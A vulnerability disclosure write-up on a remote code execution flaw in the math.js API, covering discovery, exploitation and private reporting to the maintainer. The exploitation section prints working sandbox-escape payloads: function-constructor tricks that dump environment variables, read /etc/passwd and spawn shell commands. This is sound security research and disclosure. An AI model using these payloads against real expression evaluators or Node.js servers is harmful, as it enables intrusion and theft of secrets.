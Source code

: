How we exploited a remote code execution vulnerability in math.js
====

This article explains in short how we found, exploited and reported a remote code execution (RCE) vulnerability. It is meant to be a guide to finding vulnerabilities, as well as reporting them in a responsible manner.

## Step one: discovery
While playing around with [a wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) of the math.js API (`http://api.mathjs.org/v1/?expr=expression-here`), we discovered that it **appears to evaluate JavaScript**, though with some restrictions:

```
> !calc cos
Result: function

> !calc eval
Result: function

> !calc eval("x => x")
Error: Value expected (char 3)

> !calc eval("console.log")
Error: Undefined symbol console

> !calc eval("return 1")
Result: 1
```

In particular, it seems that `eval` was replaced with a safe version. `Function` and `setTimeout`/`setInterval` didn't work, either:

```
> !calc Function("return 1")
Error: Undefined symbol Function

> !calc setTimeout
Error: Undefined symbol Function
```

## Step two: exploitation

>Now that we figured out that there are some sort of restrictions around code evaluation, we had to escape them.

There are four standard ways to **evaluate strings in JavaScript**:

  - [`eval("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

In the math.js environment, these cannot be accessed directly, either because they aren't defined or because they have been redefined with safe functions. However, they can be accessed indirectly: notably, **`Function` can be accessed indirectly as the constructor of an existing function** - this was the key intuition that led to discovering the vulnerability.

>For example, `Function("return 1")` can be replaced with `Math.floor.constructor("return 1")`. Therefore, to evaluate `return 1`, we can use `Math.floor.constructor("return 1")()`.

We know that in the math.js environment `cos` is defined as a function, so we used that:

```
> !calc cos.constructor("return 1")()
Result: 1
```

Success!

From here we could have simply `require`-d some native modules and gained access to the OS, right? Not so fast: although the math.js API server runs in a Node.js environment, for whatever reason we couldn't use `require`.

```
> !calc cos.constructor("return require")()
Error: require is not defined
```

However, we could use `process`, which has [a few nifty features](https://nodejs.org/api/process.html):

```
> !calc cos.constructor("return process")()
Result: [object process]

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<censored>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<censored>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<censored>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

Though `process.env` contains some bits of juicy info, it can't really do anything interesting: we need to go deeper and use [`process.binding`](http://stackoverflow.com/q/24042861), which exposes Javascript bindings to the OS. Though they are not officially documented and are meant for internal usage, one can reconstruct their behaviour from reading through the Node.js source code. For example, we can use `process.binding("fs")` to read arbitrary files on the OS (with the appropriate permissions):

>For brevity, we'll skip the `!calc cos.constructor("code")` wrapper, and paste the relevant JS code instead.

```
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

We're almost done: now we need to figure out a way to open a shell and run arbitrary commands. If you have experience with Node.js, you may know about [`child_process`](https://nodejs.org/api/child_process.html), which can be used to spawn processes with `spawnSync`: we just need to replicate this feature using OS bindings (remember that we can't use `require`).

This is easier than it seems: you can just take [the source code for `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), remove the code you don't need (unused functions and error handling), minify it, and run it through the API.

<script src="https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822.js"></script>
<noscript>
```
// Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

// Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

// Defines spawnSync, the function that will do the actual spawning
spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
<small>Gist [here](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822</small>
</noscript>

From here, **we can spawn arbitrary processes** and run shell commands:

```
> return spawnSync('/usr/bin/whoami');
{
  "status": 0,
  "signal": null,
  "output": [null, u15104, ],
  "pid": 100,
  "stdout": u15104,
  "stderr":
}
```

## Step three: reporting

Now that we found a vulnerability and exploited it to the largest extent possible, we had to decide what to do with it. Since we exploited it for fun and have no malicious intents, we took the "white hat" road and reported it to the maintainer. We **contacted him privately** through the e-mail address listed on his GitHub profile with the following details:

 - a short description of the vulnerability (a remote code execution flaw in mathjs.eval);
 - an **example attack** with explanation of how it works (a summary of why `cos.constructor("code")()` works and what can be achieved with `process.bindings`);
 - an actual **demonstration** on the live server (we included the output of `whoami` and `uname -a`);
 - suggestions on **how to fix it** (using the [`vm` module in Node.js](https://nodejs.org/api/vm.html), for example).

Over a course of two days, we worked with the author to help fix the vulnerability. Notably, after he pushed a fix in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) we found a similar workaround (if you can't use the constructor directly, use `cos.constructor.apply(null, "code")()`) which was fixed in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 March 2017 22:20 CEST: first successful exploitation
 - 29 March 2017 14:43 CEST: vulnerability reported to the author
 - 31 March 2017 12:35 CEST: second vulnerability (`.apply`) reported
 - 31 March 2017 13:52 CEST: both vulnerabilities are fixed

---

>This vulnerability was discovered by [\@CapacitorSet](https://github.com/CapacitorSet) and [\@denysvitali](https://github.com/denysvitali). Thanks to [\@josdejong](https://github.com/josdejong/) for promptly fixing the vulnerability and [JSFuck](http://www.jsfuck.com/) for discovering the `[].filter.constructor` trick.
>
>A clarification from Jos: math.js does not "evaluate JavaScript" as previously thought, rather, it "has its own parser with its own math oriented syntax and its own operators and functions. But these functions are still JavaScript functions of course."
>
><small>Released under [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).